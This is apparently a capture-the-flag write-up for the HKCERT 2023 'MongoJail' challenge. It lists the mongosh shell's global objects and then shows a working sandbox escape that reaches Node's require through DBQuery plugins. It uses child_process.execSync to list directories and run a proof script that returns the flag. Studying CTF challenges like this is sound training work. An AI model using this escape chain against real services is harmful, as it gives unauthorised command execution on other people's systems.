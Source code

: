 Another challenge with some hints in a step-by-step: https://hackmd.io/@blackb6a/hkcert-ctf-2023-ii-en-4e6150a89a1ff32c#%E7%8D%84%E9%96%80%E7%96%86--MongoJail-Pwn

We have the JS documentation (which is valid in Mongo): https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference

Object doesn't seem to be set to none, haha

https://stackoverflow.com/questions/1880198/how-to-execute-shell-commands-in-javascript

var execSync = require('child_process').execSync; execSync('ls', { encoding: 'utf-8' });

Object.getOwnPropertyNames(Object.prototype)

Object.getOwnPropertyNames(this).filter((obj) => obj !== undefined)
[
  'global',
  'clearImmediate',
  'setImmediate',
  'clearInterval',
  'clearTimeout',
  'setInterval',
  'setTimeout',
  'queueMicrotask',
  'structuredClone',
  'atob',
  'btoa',
  'performance',
  'fetch',
  '_',
  '@@@mdb.signatures@@@',
  'Date',
  'crypto',
  'DBQuery',
  'config',
  'use',
  'show',
  'exit',
  'quit',
  'Mongo',
  'connect',
  'it',
  'version',
  'load',
  'enableTelemetry',
  'disableTelemetry',
  'passwordPrompt',
  'sleep',
  '_print',
  'print',
  'printjson',
  'convertShardKeyToHashed',
  'cls',
  'isInteractive',
  'help',
  'DBRef',
  'bsonsize',
  'MaxKey',
  'MinKey',
  'ObjectId',
  'Timestamp',
  'Code',
  'NumberDecimal',
  'NumberInt',
  'NumberLong',
  'ISODate',
  'BinData',
  'HexData',
  'UUID',
  'MD5',
  'Decimal128',
  'BSONSymbol',
  'Int32',
  'Long',
  'Binary',
  'Double',
  'BSONRegExp',
  'EJSON',
  'rs',
  'sh',
  'sp',
  'buildInfo',
  'snippet',
  'edit',
  '_slicedToArray',
  '_nonIterableRest',
  '_unsupportedIterableToArray',
  '_arrayLikeToArray',
  '_iterableToArrayLimit',
  '_arrayWithHoles',
  'MongoshAsyncWriterError',
  'TypedArray',
  'origArraySort',
  'origTypedArraySort',
  'origFptS',
  'Object',
  'Function',
  'Array',
  'Number',
  'parseFloat',
  'parseInt',
  'Infinity',
  'NaN',
  'undefined',
  'Boolean',
  'String',
  'Symbol',
  'Promise',
  'RegExp',
  'Error',
  'AggregateError',
  'EvalError',
  'RangeError',
  'ReferenceError',
  'SyntaxError',
  'TypeError',
  'URIError',
  'globalThis',
  'JSON',
  'Math',
  'Intl',
  'ArrayBuffer',
  'Uint8Array',
  'Int8Array',
  'Uint16Array',
  'Int16Array',
  'Uint32Array',
  'Int32Array',
  'Float32Array',
  'Float64Array',
  'Uint8ClampedArray',
  'BigUint64Array',
  'BigInt64Array',
  'DataView',
  'Map',
  'BigInt',
  'Set',
  'WeakMap',
  'WeakSet',
  'Proxy',
  'Reflect',
  'FinalizationRegistry',
  'WeakRef',
  'decodeURI',
  'decodeURIComponent',
  'encodeURI',
  'encodeURIComponent',
  'escape',
  'unescape',
  'eval',
  'isFinite',
  'isNaN',
  'console',
  'SharedArrayBuffer',
  'Atomics',
  'WebAssembly'
]

Now we can run the following and see what options they have - we are looking for something which holds a reference to "require".

`this.global` - It seems that DBQuery has a reference, let's get it!

`this.global.DBQuery._instanceState.plugins[1].require()`

And now we can run this to get ls:

`var execSync = this.global.DBQuery._instanceState.plugins[1].require('child_process').execSync; execSync('ls', { encoding: 'utf-8' });`

__pycache__
chall.py
venv

`var execSync = this.global.DBQuery._instanceState.plugins[1].require('child_process').execSync; execSync('ls ../../', { encoding: 'utf-8' });`

proof_CBg0IiyEoIHTxFLZEaB4mKma9TlC1UmFCsVdnyuH.sh


`var execSync = this.global.DBQuery._instanceState.plugins[1].require('child_process').execSync; execSync('../../proof_CBg0IiyEoIHTxFLZEaB4mKma9TlC1UmFCsVdnyuH.sh', { encoding: 'utf-8' });`

And then we get the flag:

hkcert23{WolframAlpha_L0v3z_Shibuya-Yuri_Harajuku-Furi}